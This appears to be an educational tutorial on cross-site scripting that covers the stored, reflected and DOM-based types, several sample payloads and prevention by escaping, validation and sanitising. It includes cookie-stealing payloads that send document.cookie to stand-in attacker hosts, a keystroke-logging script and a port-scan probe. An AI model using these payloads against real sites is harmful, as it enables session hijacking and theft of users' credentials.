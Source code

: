# Cross-Site Scripting (XSS)

### Introduction

Cross-site scripting, also known as XSS is a security vulnerability typically found in web applications. It’s a type of injection which can allow an attacker to execute malicious scripts and have it execute on a victim’s machine.

A web application is vulnerable to XSS if it uses unsanitized user input. XSS is possible in Javascript, VBScript, Flash and CSS.

***

### Possible Attacks

* **Cookie Stealing** - Stealing your cookie from an authenticated session, allowing an attacker to login as you without themselves having to provide authentication.
* **Keylogging** - An attacker can register a keyboard event listener and send all of your keystrokes to their own server.
* **Webcam snapshot** - Using HTML5 capabilities its possible to even take snapshots from a compromised computer webcam.
* **Phishing** - An attacker could either insert fake login forms into the page, or have you redirected to a clone of a site tricking you into revealing your sensitive data.
* **Port Scanning** - You read that correctly. You can use stored XSS to scan an internal network and identify other hosts on their network.
* **Other browser based exploits** - There are millions of possibilities with XSS.

***

### 3 Types of XSS

1. **Stored/Persistent XSS (Server-side)**
2. **Reflected XSS (Client-side)**
3. **DOM-Based XSS (Special)**

***

### **Stored XSS**

The most dangerous type of XSS. This is where a malicious string originates from the website’s database. This often happens when a website allows user input that is not sanitised (remove the "bad parts" of a users input) when inserted into the database.

A attacker creates a payload in a field when signing up to a website that is stored in the websites database. If the website doesn't properly sanitise that field, when the site displays that field on the page, it will execute the payload to everyone who visits it.

The payload could be as simple as `<script>alert(1)</script>`

However, this payload wont just execute in your browser but any other browsers that display the malicious data inserted into the database.

#### Cookie Stealing

Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code: `<script>window.location='http://attacker/?cookie='+document.cookie</script>` Once your victim (in this case you hope its Jack), to visit this page, it will log his cookie for you to steal!You can also use other HTML tags to make requests, including the img tag `<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />`

***

### **Reflected XSS**

The malicious payload is part of the victims request to the website. The website includes this payload in response back to the user. To summarise, an attacker needs to trick a victim into clicking a URL to execute their malicious payload.

This might seem harmless as it requires the victim to send a request containing an attackers payload, and a user wouldn't attack themselves. However, attackers could trick the user into clicking their crafted link that contains their payload via social-engineering them via email..

Reflected XSS is the most common type of XSS attack.

#### Example

An attacker crafts a URL containing a malicious payload and sends it to the victim. The victim is tricked by the attacker into clicking the URL. The request could be `http://example.com/search?keyword=<script>...</script>`

The website then includes this malicious payload from the request in the response to the user. The victims browser will execute the payload inside the response. The data the script gathered is then sent back to the attacker (it might not necessarily be sent from the victim, but to another website where the attacker then gathers this data - this protects the attacker from directly receiving the victims data).

***

### **Dom Based XSS**

DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document and this document can be either displayed in the browser window or as the HTML source.

#### Example

In a DOM-based XSS attack, a malicious payload is not actually parsed by the victim's browser until the website's legitimate JavaScript is executed. So what does this mean?

With reflective xss, an attackers payload will be injected directly on the website and will not matter when other Javascript on the site gets loaded.

```html
<html>
    You searched for <em><script>...</script></em>
</html
```

With DOM-Based xss, an attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with. It goes through a Javascript function like so:

```javascript
var keyword = document.querySelector('#search')
keyword.innerHTML = <script>...</script>
```

***

### **Common XSS Payloads**

#### Port Scanner

[Link](http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) If an attacker is interested in what other devices are connected on the network, they can use Javascript to make requests to a range of IP addresses and determine which one responds.

For example, a website could try to find if your router has a web interface at 192.168.0.1 by:

```html
<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">
```

#### XSS Keylogger

[Link](http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.

```javascript
<script type="text/javascript">
	// Variable to store key-strokes in
	let l = "";
	// Event to listen for key presses
	document.onkeypress = function (e) {
		// "If user types, log it to the l variable"
   	l += e.key;
		// update this line to post to your own server
   	console.log(l);
	}
</script>
```

#### Filter Evasion

There are many techniques used to filter malicious payloads that are used with cross-site scripting.

#### Others

* Popup's `<script>alert(“Hello World”)</script>`
  * Creates a Hello World message popup on a users browser.
* Writing HTML (document.write)
  * Override the website's HTML to add your own (essentially defacing the entire page).

***

### [**XSS-Payloads.com**](http://www.xss-payloads.com/)

is a website that has XSS related Payloads, Tools, Documentation and more. You can download XSS payloads that take snapshots from a webcam or even get a more capable port and network scanner.

***

### Protection Methods

There are many ways to prevent XSS, here are the 3 ways to keep cross-site scripting our of your application.

1. **Escaping** - Escape all user input. This means any data your application has received is secure before rendering it for your end users. By escaping user input, key characters in the data received but the web page will be prevented from being interpreter in any malicious way. For example, you could disallow the < and > characters from being rendered.
2. **Validating Input** - This is the process of ensuring your application is rendering the correct data and preventing malicious data from doing harm to your site, database and users. Input validation is disallowing certain characters from being submit in the first place.
3. **Sanitising** - Lastly, sanitizing data is a strong defence but should not be used to battle XSS attacks alone. Sanitizing user input is especially helpful on sites that allow HTML markup, changing the unacceptable user input into an acceptable format. For example you could sanitise the < character into the HTML entity `&#60`;

***
